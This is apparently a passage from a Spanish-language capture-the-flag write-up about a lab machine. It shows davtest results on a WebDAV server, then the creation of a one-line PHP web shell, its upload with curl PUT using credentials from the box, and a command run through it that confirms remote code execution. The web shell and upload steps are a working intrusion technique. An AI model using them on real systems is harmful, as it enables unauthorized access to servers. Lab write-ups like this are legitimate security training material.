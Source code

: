 ```bash
PUT	aspx	SUCCEED:	http://10.129.192.85/webdav_test_inception/DavTestDir_eOS0iq/davtest_eOS0iq.aspx
PUT	html	SUCCEED:	http://10.129.192.85/webdav_test_inception/DavTestDir_eOS0iq/davtest_eOS0iq.html
PUT	asp	SUCCEED:	http://10.129.192.85/webdav_test_inception/DavTestDir_eOS0iq/davtest_eOS0iq.asp
********************************************************
 Checking for test file execution
EXEC	jsp	FAIL
EXEC	jhtml	FAIL
EXEC	pl	FAIL
EXEC	cgi	FAIL
EXEC	cfm	FAIL
EXEC	php	SUCCEED:	http://10.129.192.85/webdav_test_inception/DavTestDir_eOS0iq/davtest_eOS0iq.php
EXEC	php	FAIL
EXEC	shtml	FAIL
EXEC	txt	SUCCEED:	http://10.129.192.85/webdav_test_inception/DavTestDir_eOS0iq/davtest_eOS0iq.txt
EXEC	txt	FAIL
EXEC	aspx	FAIL
EXEC	html	SUCCEED:	http://10.129.192.85/webdav_test_inception/DavTestDir_eOS0iq/davtest_eOS0iq.html
EXEC	html	FAIL
EXEC	asp	FAIL

********************************************************
/usr/bin/davtest Summary:
Created: http://10.129.192.85/webdav_test_inception/DavTestDir_eOS0iq
PUT File: http://10.129.192.85/webdav_test_inception/DavTestDir_eOS0iq/davtest_eOS0iq.jsp
PUT File: http://10.129.192.85/webdav_test_inception/DavTestDir_eOS0iq/davtest_eOS0iq.jhtml
PUT File: http://10.129.192.85/webdav_test_inception/DavTestDir_eOS0iq/davtest_eOS0iq.pl
PUT File: http://10.129.192.85/webdav_test_inception/DavTestDir_eOS0iq/davtest_eOS0iq.cgi
PUT File: http://10.129.192.85/webdav_test_inception/DavTestDir_eOS0iq/davtest_eOS0iq.cfm
PUT File: http://10.129.192.85/webdav_test_inception/DavTestDir_eOS0iq/davtest_eOS0iq.php
PUT File: http://10.129.192.85/webdav_test_inception/DavTestDir_eOS0iq/davtest_eOS0iq.shtml
PUT File: http://10.129.192.85/webdav_test_inception/DavTestDir_eOS0iq/davtest_eOS0iq.txt
PUT File: http://10.129.192.85/webdav_test_inception/DavTestDir_eOS0iq/davtest_eOS0iq.aspx
PUT File: http://10.129.192.85/webdav_test_inception/DavTestDir_eOS0iq/davtest_eOS0iq.html
PUT File: http://10.129.192.85/webdav_test_inception/DavTestDir_eOS0iq/davtest_eOS0iq.asp
Executes: http://10.129.192.85/webdav_test_inception/DavTestDir_eOS0iq/davtest_eOS0iq.php
Executes: http://10.129.192.85/webdav_test_inception/DavTestDir_eOS0iq/davtest_eOS0iq.txt
Executes: http://10.129.192.85/webdav_test_inception/DavTestDir_eOS0iq/davtest_eOS0iq.html
```
Podemos ejecutar codigo php. Siendo asi trate de subir una web shell simple al servidor.
```bash
$ echo '<?php system($_GET['cmd']); ?>' > shell.php
$ curl -s -X PUT http://webdav_tester:babygurl69@10.129.192.85/webdav_test_inception/shells.php -d @shell.php
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>201 Created</title>
</head><body>
<h1>Created</h1>
<p>Resource /webdav_test_inception/shell.php has been created.</p>
<hr />
<address>Apache/2.4.18 (Ubuntu) Server at 10.129.192.85 Port 80</address>
</body></html>

$ curl http://webdav_tester:babygurl69@10.129.192.85/webdav_test_inception/shells.php\?cmd\=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
Tenemos ejecucion remota de comandos.
